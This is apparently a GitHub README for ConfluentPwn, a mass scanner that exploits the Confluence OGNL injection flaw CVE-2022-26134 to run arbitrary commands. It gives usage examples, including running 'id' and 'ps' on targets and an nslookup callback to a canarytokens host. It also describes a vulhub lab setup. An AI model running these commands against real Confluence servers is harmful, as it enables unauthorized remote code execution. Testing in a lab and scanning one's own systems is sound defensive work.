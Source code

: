 # ConfluentPwn
Confluence pre-auth ONGL injection remote code execution scanner (CVE-2022-26134).

## Usage
The below GIF shows a demo usage of the tool:

![tooldemo](https://user-images.githubusercontent.com/39941993/172548712-6bf81497-99ec-48c2-b076-d8a472c85a1f.gif)


Here is the help output of the tool:
```
$ ./cfscan -h

  +-------------------------------+
  |    C O N F L U E N T P W N    |
  +-------------------------------+

[+] ConfluentPwn by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Pinaki Mondal (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr.

Usage:
  -cmd string
        Command to execute on a vulnerable confluence server. (default "id")
  -file string
        Specify a file containing list of hosts to scan.
  -output string
        Output filepath to write the scan results into. (default "cfpwn-results.csv")
  -regex string
        Regex to match the response header for the command executed.
  -threads int
        Number of threads to use while scanning. (default 20)
  -timeout int
        HTTP timeout in seconds. (default 5)
  -user-agent string
        Custom user-agent string to use. (default "Mozilla/5.0 (ConfluentPwn) Chrome/95.0.4638.69 Safari/537.36")

Examples:
  ./cfscan 1.2.3.4:80 1.1.1.1:8080
  ./cfscan -file urls.txt
  ./cfscan -cmd 'nslookup xxxxxxxxxxxxxxxxx.canarytokens.com 1.1.1.1:80'
  ./cfscan -cmd 'ps' -regex '^\s*PID\s*TTY\s*TIME\s*CMD' http://1.1.1.1:443
```

### Specifying targets
Targets can be specified in two ways:
- Specifying URLs directly via command line.
    ```
    ./cfscan target1 target2 ...
    ```
- Specifying a file containing a list of URLs to scan using the `-file` argument.
    ```
    ./cfscan -file targets.txt
    ```

### Concurrency, timeouts and user-agents
Maximum number of concurrent targets to be processed can be controlled using the `-threads` argument. The default concurrency value is 20.

HTTP timeout value in seconds can be can be specified using the `-timeout` argument. The default timeout is set to 5 seconds.

Custom user-agent can be specified using the `-user-agent` flag, in-case the user wants to track UA strings in their logs.

### Output
The output generated is written to a CSV file, the destination of which can be specified using the `-output` flag. The default output file generated is `cfscan-results.csv`.

The output contains 4 columns:
- target
- confluence version
- vulnerability status
- command output

### Command Specification & Matching
The command to be run on a vulnerable server can be specified using the `-cmd` argument. A regular expression is specified to match the output of the command -- which can be mentioned using the `-regex` flag.

The default command which is run is the `id`, and the regex used to match the output of the command is `uid=\d+?\(\w+?\)\s*?gid=\d+?\(\w+?\)\s*groups=\d+?\(\w+?\)`.

Using the flags together looks like:
```
./cfscan -cmd 'id' -regex 'uid=\d+?\(\w+?\)\s*?gid=\d+?\(\w+?\)\s*groups=\d+?\(\w+?\)' https://1.1.1.1
./cfscan -cmd 'ps' -regex '^\s*PID\s*TTY\s*TIME\s*CMD' http://1.1.1.1:443
```

### Setting up a Test Environment
If you'd like to test out the tool or the vulnerability in general, then you can refer to this: [https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2022-26134](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2022-26134).

The installation process is quite simple, the below commands do the job:
```
$ mkdir confluentpwn && cd confluentpwn && wget https://raw.githubusercontent.com/vulhub/vulhub/master/confluence/CVE-2022-26134/docker-compose.yml
$ docker-compose up -d
```
The app should now be available at `http://localhost:8090`.

### License & Version
The tool is licensed under the MIT license. See [LICENSE](LICENSE).
Currently the tool is at v0.1.

### Credits
The Research Team at [RedHunt Labs](https://redhuntlabs.com) would like to thank [vulhub](https://github.com/vulhub/vulhub) for providing the docker test image.

##### **[`To know more about our Attack Surface Management platform, check out NVADR.`](https://redhuntlabs.com/nvadr)**

